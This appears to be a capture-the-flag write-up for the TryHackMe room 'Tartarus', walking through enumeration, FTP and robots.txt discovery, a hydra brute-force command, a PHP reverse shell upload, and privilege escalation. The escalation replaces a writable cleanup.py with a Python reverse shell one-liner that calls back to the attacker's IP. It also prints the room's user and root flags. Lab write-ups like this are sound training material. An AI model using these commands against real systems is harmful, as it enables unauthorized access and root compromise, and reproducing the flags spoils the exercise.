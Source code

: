 # Tartarus

Room: Tartarus

Link: https://tryhackme.com/room/tartaraus

TARGET IP: 10.10.13.146

*SCANNING

  Nmap scan results:
    
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.2p2 
    80/tcp open  http    Apache httpd 2.4.18

*ENUMERATION

 ftp anonymous login is allowed and after logging in we go to ... and then again ... directory
 <img src="screeshots/ftplogin.png">
  we get /sUp3r-s3cr3t directory 

 
Go to robots.txt 
  User-Agent: *
  Disallow : /admin-dir

  I told d4rckh we should hide our things deep.
Go to /admin-dir

  Download the files using :
  wget http://10.10.13.146/admin-dir/credentials.txt
  wget http://10.10.13.146/admin-dir/userid
  
  u will get to files
  user id and credentials.txt
  
 There is a login page and we have the userid and credentials.txt file. We can try and bruteforce the login page via hydra.

  use hydra bruteforce /sUp3r-s3cr3t
   
    hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"

     HYDRA IMAGE

    After logging in we get into home.php where we can upload files. Upload the script for reverse shell here.

    Start the listener on your machine

    Uploading the reverse shell php script on the page 
    Download the script from here:

    http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

we need to find the uploads directory to run our script
Now we run the directory scan 
 
 So we find the images directory with dirb and here is the upload folder open it and run the script.
 Now we got our reverse shell.

  go to home/d4rckh 
  You got the user flag! 0f7dbb2243e692e3ad222bc4eff8521f
 Now let's hunt for the root flag
 Looking at the permissions of files cleanup.py we find it has write permissions too.
 Lets modify it for privileged reverse shell
    printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.18.39",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py

    Also setup a listener port nc -lvnp 5555
    

    So we get our root shell

    And finally the root flag! 
    7e055812184a5fa5109d5db5c7eda7cd

    
